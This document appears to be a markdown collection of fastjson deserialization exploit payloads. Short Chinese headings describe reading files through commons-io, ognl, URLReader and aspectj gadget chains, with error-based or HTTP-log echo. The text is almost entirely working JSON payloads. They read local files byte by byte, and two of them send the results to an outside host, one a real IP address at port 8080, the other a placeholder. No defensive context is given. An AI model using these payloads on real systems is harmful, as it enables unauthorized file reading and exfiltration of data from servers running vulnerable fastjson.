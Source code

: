 commons-io + ognl + URLReader 单字节文件读取 HTTPLog 布尔回显（错误的时候有 log，正确时 无 log)
```json
[{"su15":{"@type":"java.lang.Exception","@type":"ognl.OgnlException",}},{"su16":{"@type":"java.lang.Class","val":{ "@type":"com.alibaba.fastjson.JSONObject",{  "@type":"java.lang.String"  "@type":"ognl.OgnlException",  "_evaluation":""}}},
{"su17":{   "@type": "ognl.Evaluation",   "node": {       "@type": "ognl.ASTMethod",       "p": {           "@type": "ognl.OgnlParser",           "stream":
{
      "@type": "org.apache.commons.io.input.BOMInputStream",
      "delegate": {
        "@type": "org.apache.commons.io.input.ReaderInputStream",
        "reader": {
          "@type": "jdk.nashorn.api.scripting.URLReader",
          "url": "file:///Users/su18/Downloads/1.txt"
          },
        "charsetName": "UTF-8",
        "bufferSize": 1024
      },"boms": [{"@type": "org.apache.commons.io.ByteOrderMark", "charsetName": "UTF-8", "bytes": [
98]}]
}}}}},{"su18" : {"$ref":"$[2].su17.node.p.stream"}},{"su19":{
"$ref":"$[3].su18.bOM.bytes"}},{"su22":{   "@type": "ognl.Evaluation",   "node": {       "@type": "ognl.ASTMethod",       "p": {           "@type": "ognl.OgnlParser",           "stream":{     "@type": "org.apache.commons.io.input.BOMInputStream",     "delegate": {       "@type": "org.apache.commons.io.input.ReaderInputStream",       "reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.net.URL","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":"http://120.48.129.28:8080/test?","country":{"@type":"java.lang.String"{"$ref":"98"}}}}},       "charsetName": "UTF-8",       "bufferSize": 1024},"boms": [{"@type": "org.apache.commons.io.ByteOrderMark", "charsetName": "UTF-8", "bytes": [1]}]}}}}},{"su23" : {"$ref":"$[5].su22.node.p.stream"}},{"su20":{   "@type": "ognl.Evaluation",   "node": {       "@type": "ognl.ASTMethod",       "p": {           "@type": "ognl.OgnlParser",           "stream":{     "@type": "org.apache.commons.io.input.BOMInputStream",     "delegate": {       "@type": "org.apache.commons.io.input.ReaderInputStream",       "reader":{"@type":"org.apache.commons.io.input.CharSequenceReader",
              "charSequence": {"@type": "java.lang.String"{"$ref":"$[4].su19"},"start": 0,"end": 0},       "charsetName": "UTF-8",       "bufferSize": 1024},"boms": [{"@type": "org.apache.commons.io.ByteOrderMark", "charsetName": "UTF-8", "bytes": [1]}]}}}}},{"su21" : {"$ref":"$[7].su20.node.p.stream"}}]
```


aspectj 读文件 + Character 报错回显
```json
{
"@type":"java.lang.Character"{"c":{
"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
"fileName":"/Users/su18/Downloads/1.txt"}}
```

commons-io + ognl + URLReader + aspectj HTTP Log 回显
```json
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{ "@type":"com.alibaba.fastjson.JSONObject",{  "@type":"java.lang.String"  "@type":"ognl.OgnlException",  "_evaluation":""}},"su16":{   "@type": "ognl.Evaluation",   "node": {       "@type": "ognl.ASTMethod",       "p": {           "@type": "ognl.OgnlParser",           "stream":{     "@type": "org.apache.commons.io.input.BOMInputStream",     "delegate": {       "@type": "org.apache.commons.io.input.ReaderInputStream",       "reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.net.URL","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":"http://x.x.x.x:8080/test?","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"/Users/su18/Downloads/1.txt"}]}}}},       "charsetName": "UTF-8",       "bufferSize": 1024},"boms": [{"@type": "org.apache.commons.io.ByteOrderMark", "charsetName": "UTF-8", "bytes": [1]}]}}}},"su17" : {"$ref":"$.su16.node.p.stream"}}
```
